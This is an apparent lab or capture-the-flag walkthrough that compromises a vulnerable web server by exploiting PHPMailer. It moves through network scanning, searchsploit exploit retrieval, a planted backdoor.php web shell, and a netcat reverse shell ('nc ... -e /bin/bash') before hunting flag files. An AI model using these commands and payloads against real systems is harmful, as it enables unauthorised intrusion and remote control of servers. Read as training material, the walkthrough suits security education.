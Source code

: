 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. Run a commmand to see host IP and network adddresses

        ifconfig

    ![1](/Images/4/111.PNG)

2. Network FootPrinting (find machines on the network)

        nmap 192.168.1.0/24

    ![2](/Images/4/222.PNG)

3. Target 2 fingerprinting (find services and ports on target) 

        nmap -sV 192.168.1.115 

    ![3](/Images/4/333.PNG)

4.  Look for Webserver vulnerabilities using Nikto

        nikto -C all -h 192.168.1.115

    ![2](/Images/4/2.PNG)

5. Scan for paths in the webserver using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![3](/Images/4/3.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser 
   
        192.168.1.115/vendor/

    **PHPMAILER detected**

    ![4](/Images/4/4.PNG)     
   
7. Double click "PATH"

    **Flag1**

    ![5](/Images/4/5.PNG)

8. Double "Click SECURITY.md"

    **It reveals vulnerable versions of PHPMAILER.**

    ![6](/Images/4/6.PNG)    

9.  Double "Click VERSION" 

    **It reveals the PHPMAILER version in use**

    ![7](/Images/4/7.PNG)  

10. Look for scripts to exploit PHPMAILER with Searchsploit

        searchsploit phpmailer

    ![8](/Images/4/8.PNG)  

11. Look at the Bash Script to exploit  PHPMAILER

        searchsploit phpmailer -x php/webapps/40968.sh     

    **press "q" keyboard to quit view**

    ![9](/Images/4/9.PNG) 

12. Download the script to the current folder

        searchsploit phpmailer -m php/webapps/40968.sh

    ![10](/Images/4/10.PNG)

13. Authorize file to execute

        sudo chmod 777 40968.sh

14. run exploit

        ./40968.sh 192.168.1.115

    ![11](/Images/4/11.PNG)

    > Note: Now we know the PHPMAILER can be exploited, but the shell from this script does not allow to do much. We can find and use a more useful script that allows to create a more powerfull shell.

    Script: [exploit.sh](/Resources/explot.sh)

15. Change script URL

        nano exploit.sh

    **Use "CTRL X", then "y", and "enter" (to exit nano)**

    ![12](/Images/4/12.PNG)

16. Authorize file to execute

         sudo chmod 777 exploit.sh

17. Execute file

        ./exploit.sh

    ![13](/Images/4/13.PNG)

18. Set netcat to lisent on kali machine

         nc -lnvp 4444

    ![14](/Images/4/14.PNG)

19. Make exploited machine calls Kali Linux machine with a netcat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address for the one of your own kali linux machine.**

    ![16](/Images/4/16.PNG)

21. Look for flags with find command

        find /var/www -type f -iname 'flag*'

    ![17](/Images/4/17.PNG)

22. Open file

        cat /var/www/flag2.txt

    **flag2**

    ![18](/Images/4/18.PNG)

23. Look for others flags

        find -type f -iname '*flag*'

    **The "./" previous "wordpress" means the file is active on wordpress.**

    ![19](/Images/4/19.PNG)

24. Inset paths on the browser

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
   ![20](/Images/4/20.PNG)